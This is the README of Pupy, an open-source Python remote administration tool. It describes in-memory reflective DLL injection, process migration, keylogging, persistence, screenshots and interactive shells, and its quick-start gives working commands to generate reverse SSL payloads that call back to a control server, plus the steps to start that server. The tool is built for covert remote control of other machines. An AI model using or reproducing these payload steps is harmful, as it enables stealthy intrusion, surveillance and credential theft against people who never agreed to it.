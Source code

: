 # pupy
Pupy is an opensource RAT (Remote Administration Tool) written in Python. Pupy uses reflective dll injection and leaves no traces on disk.

## Features :
- On windows, the Pupy payload is compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
- Pupy can reflectively migrate into other processes
- Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd). The imported python modules do not touch the disk. (.pyd mem import currently work on Windows only, .so memory import is not implemented). 
- modules are quite simple to write and pupy is easily extensible.
- Pupy uses rpyc (https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
  - we can also access remote objects interactively from the pupy shell and even auto completion of remote attributes works !
- communication channel currently works as a ssl reverse connection, but a bind payload will be implemented in the future
- all the non interactive modules can be dispatched on multiple hosts in one command
- Multi-platform (tested on windows 7, windows xp, kali linux, ubuntu)
- modules can be executed as background jobs
- commands and scripts running on remote hosts are interruptible
- auto-completion and nice colored output :-)
- commands aliases can be defined in the config

## Implemented Modules :
- migrate (windows only) 
  - inter process architecture injection also works (x86->x64 and x64->x86)
- keylogger (windows only)
- persistence (windows only)
- screenshot (windows only)
- command execution
- download
- upload
- socks5 proxy
- interactive shell (cmd.exe, /bin/sh, ...)
- interactive python shell

##Quick start
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
### generate a payload
#### for Windows
```bash
./genpayload.py 192.168.0.1 -p 443 -t exe_x86 -o pupyx86.exe
```
#### for Linux
```bash
pip install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

#### for MAC OS X
```bash
easy_install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

### start the server
1. eventually edit pupy.conf to change the bind address / port
2. start pupysh.py
```bash
./pupysh.py
```
3. type "clients" to display connected clients

